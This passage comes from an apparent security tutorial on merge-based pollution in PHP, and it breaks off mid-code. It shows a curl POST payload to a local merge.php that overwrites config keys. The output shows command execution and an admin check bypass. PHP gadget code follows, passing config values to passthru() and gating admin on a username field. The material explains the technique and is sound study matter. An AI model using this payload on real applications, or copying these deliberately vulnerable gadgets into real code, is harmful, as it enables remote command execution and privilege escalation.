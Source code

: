 ```shell
└> curl -X POST http://localhost:8000/merge.php --data '{"healthCheckCommands": ["echo RCE gadget executed!"], "username": "admin"}'
[*] Before merging:
Foo Object
(
    [healthCheckCommands] => Array
        (
            [0] => ping -c 1 127.0.0.1
        )

    [username] => not_admin
)
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.031 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.031/0.031/0.031/0.000 ms
[-] Is NOT admin

[*] After merging:
Foo Object
(
    [healthCheckCommands] => Array
        (
            [0] => echo RCE gadget executed!
        )

    [username] => admin
)
RCE gadget executed!
[+] Is admin
```

But wait, how about those **built-in array merging functions**?

For using built-in merging functions and type casting, since the `(object)` type casting will return an object instance of class `stdClass`, we cannot pollute the base object's attributes. However, if we don't use type casting, we can still **pollute the array's keys**. Here's an example.

Assume the application has this `$config` associative array:

```php
$config = array(
    "healthCheckCommands" => array(
        "ping -c 1 127.0.0.1"
    ),
    "username" => "not_admin"
);
```

With these 2 gadgets:

```php
// RCE gadget
function healthCheck($config) {
    foreach ($config["healthCheckCommands"] as $command) {
        passthru($command);
    }
}

// Authentication bypass gadget
function isAdmin($config) {
    if ($config["username"] === "admin") {
        echo "[+] Is admin\n";
    } else {
```